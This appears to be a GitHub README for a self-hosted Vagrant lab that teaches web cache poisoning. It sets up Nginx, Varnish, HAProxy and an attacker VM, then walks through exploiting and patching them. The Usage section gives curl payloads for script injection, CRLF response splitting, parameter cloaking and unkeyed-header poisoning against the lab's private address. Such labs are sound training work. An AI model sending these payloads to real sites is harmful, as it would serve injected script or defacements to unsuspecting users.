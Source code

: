 # Aboiye-DevSecOps-Projects
Documentation for my DevSecOps Projects


# Cache Poisoning Lab

This project is a Vagrant-based local lab designed to explore cache poisoning vulnerabilities, exploit them, and learn how to patch them. It simulates a web application stack with a web server, caching server, load balancer, and attacker machine, providing hands-on experience with cybersecurity concepts like cache key manipulation, HTTP response splitting, and parameter cloaking.

## Project Overview

The lab replicates a realistic web stack to study cache poisoning:
- **Web Server**: Nginx serving static and dynamic content.
- **Caching Server**: Varnish as a reverse proxy with caching capabilities.
- **Load Balancer**: HAProxy distributing traffic.
- **Attacker Machine**: A VM for simulating attacks.
- **Victim Client**: Your host machine to observe the effects.

The setup intentionally introduces vulnerabilities, demonstrates exploitation techniques, and then applies patches to secure the environment.

## Topology

Below is the network topology of the lab:

```mermaid
graph TD
    subgraph Internet[Internet]
        VC[Victim Client<br>Your Host]:::client
        AM[Attacker Machine<br>192.168.50.40]:::attacker
    end
    VC -->|HTTP Requests| LB[Load Balancer Tier<br>HAProxy<br>192.168.50.30]:::loadbalancer
    AM -->|Malicious Requests| LB
    LB --> CS[Caching Tier<br>Varnish<br>192.168.50.20]:::cache
    CS --> WS[Application Tier<br>Nginx Web Server<br>192.168.50.10]:::webserver

    classDef client fill:#f9f,stroke:#333,stroke-width:2px;
    classDef attacker fill:#fdd,stroke:#f00,stroke-width:2px;
    classDef loadbalancer fill:#bbf,stroke:#333,stroke-width:2px;
    classDef cache fill:#bfb,stroke:#333,stroke-width:2px;
    classDef webserver fill:#bfb,stroke:#333,stroke-width:2px;
```
Prerequisites

    Vagrant
    VirtualBox (or another Vagrant provider)
    Basic knowledge of Linux, networking, and HTTP

Setup Instructions

    Clone the Repository:
    bash

git clone <your-repo-url>
cd cache-poisoning-lab
Start the Lab:
bash

    vagrant up
    This provisions four VMs: web, cache, lb, and attacker.
    Access the Components:
        Web Server: 192.168.50.10
        Caching Server: 192.168.50.20
        Load Balancer: 192.168.50.30 (entry point)
        Attacker: 192.168.50.40

Usage
Exploring Vulnerabilities

    Cache Key Manipulation:
        From the attacker VM: curl -H "Host: example.com" "http://192.168.50.30/dynamic.php?user=<script>alert('Hacked')</script>"
        Test as victim: curl http://192.168.50.30/dynamic.php
    HTTP Response Splitting:
        curl -H "Host: example.com" "http://192.168.50.30/dynamic.php?user=Alice%0d%0aContent-Length:%200%0d%0a%0d%0a<h1>Defaced!</h1>"
    Parameter Cloaking:
        curl -H "Host: example.com" "http://192.168.50.30/dynamic.php?user=Normal;user=<script>alert('XSS')</script>"
    Unkeyed Headers:
        curl -H "Host: example.com" -H "Accept-Encoding: gzip" "http://192.168.50.30/dynamic.php?user=<h1>Poisoned</h1>"

Patching Vulnerabilities

    Re-provision VMs with updated configs:
    bash

    vagrant provision web
    vagrant provision cache
    vagrant provision lb
    Retest attacks to verify fixes (see configuration details in the Vagrantfile).

Files

    Vagrantfile: Defines and provisions the VMs with initial vulnerable configs and patched versions.
    README.md: This file.

Learning Objectives

    Understand how caching works in a web stack.
    Exploit common cache poisoning techniques.
    Implement mitigations like input sanitization, cache key normalization, and header validation.

Patching Details

    Nginx: Sanitizes input with htmlspecialchars and adds Cache-Control: no-store.
    Varnish: Keys on headers, skips caching dynamic content, respects backend cache directives.
    HAProxy: Rejects malformed headers and rate-limits requests.

Contributing

Feel free to fork this repo, enhance the lab (e.g., add CDN caching), and submit pull requests!
License

MIT License - feel free to use and modify this lab for educational purposes.
